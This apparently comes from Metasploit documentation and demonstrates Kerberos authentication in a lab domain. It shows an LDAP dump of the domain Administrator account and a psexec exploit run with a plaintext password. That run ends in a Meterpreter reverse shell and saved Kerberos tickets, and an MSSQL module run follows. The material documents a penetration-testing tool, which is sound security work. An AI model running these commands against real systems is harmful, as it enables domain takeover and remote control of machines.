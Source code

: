  Name                Attributes
 ----                ----------
 badpwdcount         0
 description         Built-in account for administering the computer/domain
 lastlogoff          1601-01-01 00:00:00 UTC
 lastlogon           2023-01-23 11:02:49 UTC
 logoncount          159
 memberof            CN=Group Policy Creator Owners,CN=Users,DC=domain,DC=local || CN=Domain Admins,CN=Users,DC=domain,DC=local |
                     | CN=Enterprise Admins,CN=Users,DC=domain,DC=local || CN=Schema Admins,CN=Users,DC=domain,DC=local || CN=Adm
                     inistrators,CN=Builtin,DC=domain,DC=local
 name                Administrator
 objectsid           S-1-5-21-3402587289-1488798532-3618296993-500
 pwdlastset          133189448681297271
 samaccountname      Administrator
 useraccountcontrol  512

 ... etc ...
`

`msf
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
[*] Meterpreter session 6 opened (192.168.123.1:4444 -> 192.168.123.13:49738) at 2023-01-18 12:09:13 +0000

meterpreter >
`

`msf
msf6 > use auxiliary/admin/mssql/mssql_sql
msf6 auxiliary(admin/mssql/mssql_sql) > run 192.168.123.13 domaincontrollerrhost=192.168.123.13 username=administrator password=p4$$w0rd mssql::auth=kerberos mssql::rhostname=dc3.demo.local mssqldomain=demo.local sql='select auth_scheme from sys.dm_exec_connections where session_id=@@spid'
[*] Reloading module...
[*] Running module against 192.168.123.13
